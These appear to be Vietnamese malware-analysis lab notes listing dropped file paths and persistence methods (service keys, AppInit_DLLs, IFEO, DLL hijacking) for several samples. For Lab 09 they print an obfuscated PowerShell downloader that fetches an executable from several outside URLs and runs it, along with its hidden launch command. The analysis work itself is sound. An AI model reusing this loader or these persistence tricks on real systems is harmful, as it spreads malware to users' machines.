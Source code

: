 # Lab 06

- Đường dẫn: C:\Windows\SysWOW64\trnsrun.exe

- Cách thức persistent: mã độc dùng key HKLM\System\CurrentControlSet\Service

# Lab 07

- Đường dẫn: C:\Users\Gee\AppData\Roaming\Microsoft\Windows\OUTLLIB.DLL

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

# Lab 08

- Đường dẫn: C:\ProgramData\McAfee\McUtil.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\McAfee cho file thực thi và kỹ thuật dll Hijack để thêm dll độc hại vào cùng file thực thi

# Lab 09

- Mã độc thực thi lệnh: powershell.exe -ExecutionPolicy Bypass -file C:\ProgramData\Microsoft\install.ps1 -WindowStyle Hidden

- File C:\ProgramData\Microsoft\install.ps1 là một lệnh powershell có chức năng:

  ```
  $Eaqekqdr='Rdihyhokr';
  $Qlidsvmgx='697';
  $Zekpiwafigy='Bznpimsdzhz';
  $Dvbarexgme=$env:userprofile+'\'+$Qlidsvmgx+'.exe';
  $Nyvgeunamuv='Qwlelligoxb';
  $Mgufpvaskhlz=..('n'+'ew-ob'+'ject') net.webclient;
  $Snotuzji='https://www.arfajbd.com/wp-admin/kx432434/*https://hefo.com/wp-content/5zuz9ir00606/*http://icloudgraphics.com/wp-content/o1cu7628/*https://bucketlistadventures.com/m5_edit_item/06605ld03197/*http://naavikschool.com/naavikschool.com/ooqvi7a0682/';.``'SPL`I`t'(''*)$Zwecplcmhnzc='Ofrhbvbgo';
  foreach($Sixenfhuvxlow in $Snotuzji)
  {
    try
      {
        $Mgufpvaskhlz."d`Ow`LOad`FilE"($Sixenfhuvxlow, $Dvbarexgme);
        $Hjyeuxoehr='Fejljctrajft';
        If((..('G'+'e'+'t-Item') $Dvbarexgme)."L`E`N`GTH" -ge 26474)
        {
          [Diagnostics.Process]::"St`AR`t"($Dvbarexgme);
          $Pqabbqfxpvzeu='Nlkwrrxcr';
          break;
          $Spaskmwq='Evozmuqleiihk'
        }
      }
      catch{}
  }
  $Imjfroitwtypw='Mhweqwhphs'
  ```

  - Tạo và đặt các biến: Các biến $Eaqekqdr, $Qlidsvmgx, $Zekpiwafigy, $Dvbarexgme, $Nyvgeunamuv, $Mgufpvaskhlz, $Snotuzji, $Zwecplcmhnzc, $Hjyeuxoehr, $Pqabbqfxpvzeu, $Spaskmwq, và $Imjfroitwtypw được tạo và gán giá trị.
 
  - Tải về một tệp: Sử dụng đối tượng Net.WebClient, mã PowerShell này cố gắng tải về một tệp từ các URL đã liệt kê trong biến $Snotuzji và lưu tệp này vào vị trí được xác định bởi biến $Dvbarexgme.

  - Kiểm tra độ dài tệp và thực thi: Nếu tệp được tải về có độ dài (kích thước) lớn hơn hoặc bằng 26474 byte, nó sẽ được thực thi bằng cách sử dụng Diagnostics.Process.

# Lab 10

- Đường dẫn: c:\windows\system32\config:conf.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
